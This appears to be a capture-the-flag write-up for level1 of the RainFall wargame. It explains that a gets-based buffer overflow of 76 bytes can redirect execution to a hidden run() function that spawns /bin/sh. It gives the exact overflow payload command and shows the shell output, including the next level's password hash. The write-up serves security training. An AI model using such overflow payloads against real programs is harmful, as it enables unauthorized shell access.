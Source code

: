 # level1


the programe expect a 76 length char input using gets then return there is a function in the programe named run () at 08048444:

```bash
08048444    int32_t run()

0804846d        fwrite(buf: "Good... Wait what?\n", size: 1, count: 0x13, fp: stdout)
0804847f        return system(line: "/bin/sh")
```

it return system(line: "/bin/sh") we got to run it

\-> overflow fill the buffer + the run adress  and pass command that hand on the /bin/sh sense it return it :

```bash
level1@RainFall:~$ (python -c "print('A'*76 + '\x44\x84\x04\x08')"; cat) | ./level1 
Good... Wait what?
cd ..
cd level2
cat .pas*       
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

here is the next level code :

53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77